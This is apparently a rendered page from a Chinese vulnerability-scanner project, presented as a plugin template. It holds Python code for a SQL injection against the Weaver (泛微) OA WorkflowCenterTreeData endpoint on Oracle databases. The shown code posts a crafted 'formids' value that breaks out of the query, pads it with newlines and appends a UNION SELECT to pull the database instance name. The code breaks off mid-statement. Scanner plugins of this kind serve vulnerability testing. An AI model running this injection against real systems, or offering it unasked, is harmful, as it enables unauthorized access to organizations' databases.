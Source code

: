 ## 插件模板

以最新的```泛微OA```插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
注意！只能对oracle数据库起作用
'''
__author__ = 'Ascotbe'
__times__ = '2019/10/13 22:12 PM'
import urllib
import requests
import re
class VulnerabilityInfo(object):
    def __init__(self):
        self.info = {}
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['CreateDate'] = "2019-10-13"  # 插件编辑时间
        self.info['algroup'] = "Weaver_WorkflowCenterTreeDataInterfaceInjectionVulnerability"  # 漏洞名称
        self.info['affects'] = "泛微OA"  # 漏洞组件
        self.info['desc_content'] = "泛微OA_WorkflowCenterTreeData接口注入漏洞"  # 漏洞描述

def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port

def medusa(Url,RandomAgent,ProxyIp):

    scheme, url, port = UrlProcessing(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    global resp
    global resp2
    try:
        payload = "/mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333"
        payload_url = scheme + "://" + url + payload


        headers = {
            'User-Agent': RandomAgent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'
        }

        s = requests.session()
        if ProxyIp!=None:
            proxies = {
                # "http": "http://" + str(ProxyIps) , # 使用代理前面一定要加http://或者https://
                "http": "http://" + str(ProxyIp)
            }
            resp = s.post(payload_url,
                          data={'formids': '11111111111)))' + '\x0a\x0d' * 360 + 'union select NULL,instance_name from '
```